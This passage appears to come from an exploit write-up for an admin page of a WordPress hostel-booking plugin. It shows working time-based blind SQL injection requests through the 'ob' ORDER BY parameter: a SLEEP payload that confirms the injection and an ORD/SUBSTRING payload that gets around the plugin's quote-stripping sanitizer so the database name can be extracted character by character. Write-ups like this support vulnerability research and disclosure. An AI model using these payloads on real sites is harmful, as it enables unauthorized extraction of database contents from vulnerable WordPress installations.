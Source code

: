 
## Exploit

### Detecting SQLi

**Request with BurpSuite**:

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=upcoming&ob=tB.status,(SELECT+SLEEP(10))&dir=ASC HTTP/1.1
```

We separate the `ORDER BY` clause with a comma because it accepts **multi-column** values.

![time response](time_response.png "Detecting SQLi")

Result: the response time is delayed → SQL Injection succeeded.

### Dumping Data from the Database

**Bypass `'` using ORD()**:

To dump database data we need to extract characters such as the first character of the **database name**.

Because `sanitize_text_field()` removes single quotes (`'`), we cannot use payloads relying on `'`. Instead, use `ORD()` to compare character ASCII codes:

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=past&ob=tB.status,(SELECT+IF(ORD(SUBSTRING(DATABASE(),1,1))=119,SLEEP(5),0))&dir=ASC HTTP/1.1
```

Bypass succeeds → we can extract the database name.

![ORD bypass](ord_bypass.png "Dumping Data from the Database")
